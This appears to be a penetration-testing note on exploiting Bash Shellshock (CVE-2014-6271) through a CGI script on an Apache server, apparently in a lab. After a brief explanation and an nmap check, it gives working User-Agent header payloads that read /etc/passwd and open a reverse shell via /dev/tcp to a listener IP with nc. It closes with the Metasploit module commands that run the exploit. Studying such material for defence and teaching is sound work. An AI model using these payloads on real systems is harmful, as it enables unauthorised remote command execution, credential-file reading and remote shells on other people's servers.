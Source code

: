 # Bash CVE-2014-6271 (Shellshock)

# Explanation

- ShellShock is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via reverse shell.

- The ShellShock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.

- The ShellShock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after series of characters : () {:;};.

- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.

- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

- Link : https://github.com/opsxcq/exploit-CVE-2014-6271

# Enumeration

Check the source code of the targeted application, in order to notice the execution of a CGI script, for example :

![Getcgi](../../../Media/CVE-2014-6271-Shellshock/getcgi.png)

In our case, the script is stored at the root of the server, so we can access it directly in the URL : 
```
http://192.24.241.3/gettime.cgi
```

And we can use nmap to check whether the target is really vulnerable :
```
nmap -sV 192.24.241.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```

# Exploit with BurpSuite

1. Start BurpSuite, and send GET request to repeater module :

![burp-shellshock-1](../../../Media/CVE-2014-6271-Shellshock/burp-shellshock-1.png)

2. And modify User-Agent for inject shellshock payload :

```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

![burp-shellshock-2](../../../Media/CVE-2014-6271-Shellshock/burp-shellshock-2.png)

3. With this, we can go a step further and obtain a reverse shell :

```
nc -nvlp 1234
```

```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1'
```

# Exploit with Metasploit Framework

```
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 > set RHOSTS 192.24.241.3
msf6 > set TARGETURI /gettime.cgi
msf6 > run
```